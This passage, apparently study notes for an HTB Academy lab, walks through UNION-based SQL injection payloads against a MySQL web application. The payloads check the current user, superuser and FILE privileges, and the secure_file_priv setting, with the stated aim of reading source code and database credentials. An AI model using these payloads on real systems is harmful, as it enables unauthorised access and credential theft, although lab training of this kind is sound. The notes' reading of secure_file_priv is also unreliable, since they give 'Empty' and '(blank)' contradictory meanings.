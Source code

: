 #### Step 2: Check Superuser Privileges  
```sql
-- Test if current user has admin privileges
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

-- Result interpretation:
-- Y = YES → User has superuser privileges
-- N = NO → User has limited privileges
```

#### Step 3: Enumerate Specific Privileges
```sql
-- List all privileges for current user
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

-- Look for these critical privileges:
-- FILE → Can read/write files
-- SELECT → Can read database data
-- INSERT → Can write database data
-- SUPER → Can perform admin operations
```

#### Step 4: Check FILE Privilege Restrictions
```sql
-- Check secure_file_priv setting (restricts file operations)
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

-- Result interpretation:
-- NULL or Empty = No restrictions (can read/write anywhere)
-- /var/lib/mysql-files/ = Restricted to specific directory
-- (blank) = File operations completely disabled
```

### HTB Academy Complete Walkthrough

#### Scenario: Reading Application Source Code to Find Database Credentials

**Step 1: Verify User and Privileges**
```sql
-- 1. Check current user
cn' UNION SELECT 1, user(), 3, 4-- -
-- Result: "root@localhost" ✅ Promising

-- 2. Check super privileges  
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
-- Result: "Y" ✅ Has superuser privileges

-- 3. Verify FILE privilege
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
-- Look for: FILE privilege listed ✅ Can read files
```
